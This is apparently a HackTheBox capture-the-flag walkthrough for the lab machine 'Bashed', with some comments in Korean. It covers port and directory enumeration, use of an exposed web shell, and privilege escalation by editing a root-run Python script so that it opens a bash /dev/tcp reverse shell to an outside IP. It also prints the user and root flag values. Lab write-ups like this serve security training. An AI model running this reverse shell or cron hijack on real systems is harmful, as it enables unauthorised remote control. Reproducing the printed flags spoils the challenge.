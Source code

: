 # HackTheBox Walkthrough - Machine: Bashed

**Target IP**: 10.129.188.137  
**Difficulty**: Easy  
**Objective**: Exploit exposed web shell to escalate privileges and capture user and root flags.

---

## 🧭 Enumeration

### 🔍 Task 1: How many open TCP ports are listening on Bashed?

```bash
nmap -sV -sC -oA nmap/Bashed 10.129.188.137
```

```text
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

**Answer**: `1`

---

### 🔍 Task 2: What is the relative path on the webserver to a folder that contains phpbash.php?

```bash
gobuster dir -u http://10.129.188.137/ -w /usr/share/wordlists/dirb/common.txt -x php,txt
```

→ `/dev` 디렉토리에 `phpbash.php` 확인

**Answer**: `/dev`

---

### 👤 Task 3: What user is the webserver running as on Bashed?

`whoami` 명령 실행 결과:

**Answer**: `www-data`

---

## 🧑‍💻 Submit User Flag

`cat /home/arrexel/user.txt`

**Answer**: `a8e03631cd4c2a095a4304b339d3d039`

---

### 🔒 Task 5: www-data can run any command as a user without a password. What is that user's username?

```bash
sudo -l
```

**Answer**: `scriptmanager`

---

### 📁 Task 6: What folder in the system root can scriptmanager access that www-data could not?

```bash
ls -al /
```

**Answer**: `/scripts`

---

### 🐍 Task 7: What is filename of the file that is being run by root every couple minutes?

```bash
sudo -u scriptmanager ls /scripts
```

→ `test.py` 가 주기적으로 실행 중

**Answer**: `test.py`

---

## 👑 Submit Root Flag

`test.py` 를 다음과 같이 수정:

```python
import os
os.system("bash -c 'bash -i >& /dev/tcp/10.10.14.94/4444 0>&1'")
```

리버스셸 연결 후:

```bash
cat /root/root.txt
```

**Answer**: `05b5cbc044c18849238237bd4f672e8c`

---